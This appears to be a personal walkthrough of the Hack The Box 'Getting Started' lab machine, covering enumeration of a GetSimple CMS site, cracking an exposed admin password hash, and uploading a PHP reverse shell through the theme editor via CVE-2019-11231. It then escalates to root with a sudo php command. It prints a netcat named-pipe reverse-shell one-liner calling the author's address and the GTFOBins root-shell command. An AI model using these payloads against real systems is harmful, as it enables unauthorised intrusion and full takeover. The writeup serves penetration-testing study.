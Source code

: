 ## **Hack The Box - Getting Started**

**Creator:** [mrb3n](https://app.hackthebox.com/users/2984)?

**Difficulty:** Easy

**Link:** 

---


<ins> **Introduction** </ins>

*Getting Started* is an Easy Level system and is meant to be the first *blackbox* machine someone following the *Penetration Tester* Learning path would encounter. As such I was not able to obtain creator information, a direct link to the machine, or it's info card. Although I can register a guess who the creator was based on a username found on the system.
In this challenge I gain a foothold by exploiting [CVE-2019-11321](https://nvd.nist.gov/vuln/detail/CVE-2019-11231). From there I'm able to obtain root access using the *www-data* users sudo privileges over the *php* command that can be found on [GTFO Bins](https://gtfobins.github.io/gtfobins/php/#sudo).

---

<ins> **Enumeration** </ins>

I Normally start each machine with an *nmap* scan and this one was no exception. 

![nmap output](/docs/assets/images/HTB/gettingstarted/gettingstarted1.png)

Port 22/tcp open to ssh using OpenSSH 8.2p1
 
Port 80/tcp open to http using Apache httpd 2.4.41

Neither one yielded any results initially with *searchsploit*. Navigating over to the webpages showed me what looked like an outline for a blog or something running *GetSimple* Content Managment System. This page contains a few links to documentation for *GetSimple* and some support forums. There are also some headers containing some content in a language I can't read, a list of features, and finally a link to *gettinstarted*. 



![searchsploit](/docs/assets/images/HTB/gettingstarted/gettingstarted2.png)

![webpage](/docs/assets/images/HTB/gettingstarted/gettingstarted3.png)

Navigating over to *gettingstarted* brings me to a server not found page. I noticed the ip_address in the url bar change itself into a hostname, which tells me I'll have to edit them into my */etc/hosts* file. Once I do that I'm able to load a webpage very similar to the one I was on before.

![404](/docs/assets/images/HTB/gettingstarted/gettingstarted4.png)

![etc hosts](/docs/assets/images/HTB/gettingstarted/gettingstarted5.png)

![webpage loaded](/docs/assets/images/HTB/gettingstarted/gettingstarted6.png)

I wasn't able to find a whole lot on the web page as it is. The next step for me was to run *gobuster* against the webserver. I started with a simple word list and got several hits. Three with a status code of 200, */index.php, /robots.txt, /sitemap.xml*, and five with a status code of 301 */theme, /plugs, /data, /backups, /admin*. 

`gobuster dir –u <target_ip> -w /usr/share/dirb/wordlists/common.txt`

![gobuster](/docs/assets/images/HTB/gettingstarted/gettingstarted7.png)

I spent some time navigating through these directories and seeing what information I could find from them. The */admin* directory redirected to a login page with a nonspecific error message, and inside of the */data* directory I was able to find an *api key* and what was likely the specific version of *GetSimple*, being *GetSimple 3.3.15*.

![admin login](/docs/assets/images/HTB/gettingstarted/gettingstarted10.png)

![nonspecific error](/docs/assets/images/HTB/gettingstarted/gettingstarted11.png)

![api key](/docs/assets/images/HTB/gettingstarted/gettingstarted8.png)

![GetSimple Version](/docs/assets/images/HTB/gettingstarted/gettingstarted9.png)

*Searchsploit* again failed to yield any results for this specific version. At this point I kind of hit a wall so I spent some time on google searching for the service versions I found already which is where I found [CVE-2019-11321](https://nvd.nist.gov/vuln/detail/CVE-2019-11231). 

![searchsploit getsimple](/docs/assets/images/HTB/gettingstarted/gettingstarted12.png)

![CVE-2019-11231](/docs/assets/images/HTB/gettingstarted/gettingstarted13.png)

Immediately what stood out to me was this line about password exposure:

> However, what is overlooked is that the Apache HTTP Server by default no longer enables the AllowOverride directive, leading to data/users/admin.xml password exposure.

Sure enough navigating over to the *data/users/admin.xml* directory leads to some exposed login credentials *admin:d033e22ae348aeb5660fc2140aec35850c4da997*. The password is hashed but I was able to easily put that into a file and use *john* to crack it.

```
echo "d033e22ae348aeb5660fc2140aec35850c4da997" > passhash.txt
sudo john passhash.txt
```
![password hash](/docs/assets/images/HTB/gettingstarted/gettingstarted14.png)

![john](/docs/assets/images/HTB/gettingstarted/gettingstarted15.png)

The password is *admin*. Navigating back over to the */admin* directory I enter the credentials *admin:admin* and gain access to the CMS admin page.

![CMS admin page](/docs/assets/images/HTB/gettingstarted/gettingstarted16.png)

---


<ins> **Exploitation** </ins>

According to the CVE I found the *theme-edit.php* file has poor input sanitization and allows for the upload of arbitrary content like php code. So I'm just going to replace everything currently in the editor with a php reverse shell.  

`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.152 3232 >/tmp/f"); ?>`

Breaking that payload down a little bit:

`<?php?>` is the *php* tag, `system` is a built-in *php* function that is used to execute system commands. `rm /tmp/f` Removes the named pip */tmp/f* if it already exists, `mkfifo /tmp/f` creates a *FIFO (first in first out)* file which is also known as a named pipe. The file is named *f* and placed in the */tmp* directory, it is a special file type that is used for inter-process communication, it acts as a pipeline that allows one process to write to the pipe and another process to read from it. These named pipes do not store any data, they only server to pass data between processes. `cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.152 3232 >/tmp/f` pipes the output of */tmp/f* to netcat, which sends it to my ip address on the port I will set up the listener on. The `/bin/sh -i` part starts an interactive shell with input/output connected to the named pipe, `2>&1` redirects standard error to standard output, this means that error messages will also be sent to the remote host. Finally, `>/tmp/f` redirects the output of the *netcat* command back to the named pipe, so the reverse shell can read it.

![Theme Editor](/docs/assets/images/HTB/gettingstarted/gettingstarted17.png)

![php rev shell](/docs/assets/images/HTB/gettingstarted/gettingstarted18.png)

After that I will set up a listener in a new terminal then navigate over to the file path, *http://gettingstarted.htb/theme/innovation/* as specified on the *Content Theme* page, and click the file now containing the payload to execute it.

![listener](/docs/assets/images/HTB/gettingstarted/gettingstarted19.png)

![filepath](/docs/assets/images/HTB/gettingstarted/gettingstarted20.png)

![execute shell](/docs/assets/images/HTB/gettingstarted/gettingstarted21.png)

Back at my listener I can see that I'm now logged in as the www-data user. My next step after that is to use python to upgrade the TTY so that it's easier to work with and then I will begin the enumeration phase all over to see what I can find as this low level user. 

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

![listener whoami](/docs/assets/images/HTB/gettingstarted/gettingstarted22.png)

![upgrade TTY](/docs/assets/images/HTB/gettingstarted/gettingstarted23.png)

The user flag was very easy to find since the www-data user has the correct permissions to read the file.

![user flag](/docs/assets/images/HTB/gettingstarted/gettingstarted24.png)

---


<ins> **Privilege Escalation** </ins>

Using `sudo -l` I'm able to see that the *www-data* user can execute the *php* command as root without the need for a password.

![sudo -l](/docs/assets/images/HTB/gettingstarted/gettingstarted25.png)  

Unfortunately while trying for privilege escalation my *TTY* was just giving me a world of trouble. So I started over and took a few extra steps to give myself a better one.  

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 

Ctrl-Z  # This will suspend the current process and return you to your local shell 

stty raw -echo 

Fg 
```

With that out of the way I now have a much more stable shell, sadly the exploit I am about to do in the next step is about undo all of that work.

Searching for *php* on [GTFO Bins](https://gtfobins.github.io/gtfobins/php/#sudo) shows an exploit that will escalate privileged access on the machine

```
CMD="/bin/sh"
sudo php -r "system('$CMD');"
```

![GTFO BINS](/docs/assets/images/HTB/gettingstarted/gettingstarted26.png)

![Whoami Root](/docs/assets/images/HTB/gettingstarted/gettingstarted27.png)

From there I just use `cat` to read the *root.txt* file to obtain the flag.

![root flag](/docs/assets/images/HTB/gettingstarted/gettingstarted28.png)

No fance *PWND* info card with this one.

---


<ins> **Final Thoughts** </ins>

Not a whole lot on this one. I learned a little bit more about *named pipes* and taking a reverse shell I already used and modifying the payload slightly for a different system. All and all I'd say this is one of the easiest boxes I've ever done, which I believe it was intended to be since it's the *first* blackbox machine on the learning path.






